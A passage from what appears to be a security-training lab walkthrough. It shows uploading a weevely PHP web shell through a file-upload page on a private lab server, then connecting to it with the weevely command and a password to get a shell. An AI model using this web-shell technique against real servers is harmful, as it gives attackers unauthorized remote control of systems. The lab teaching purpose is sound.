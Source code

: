 Upload the file and go to the file if we get blank page this means our file are uploaded.

Link:- http://192.168.1.105/hackable/uploads/weeve.php

Lets interact with script

Command :- weevely [http://192.168.1.105/hackable/uploads/weeve.php 123456](http://192.168.1.105/hackable/uploads/weeve.php%20123456)

First give command name than link where our script is stored in web server than password .

Hit enter & boom we got the shell.

![](Aspose.Words.c26f63e3-5a21-43e8-831a-96dedae1093f.020.png)



Md Asad Ansari

Security analyst

asad@craw.in
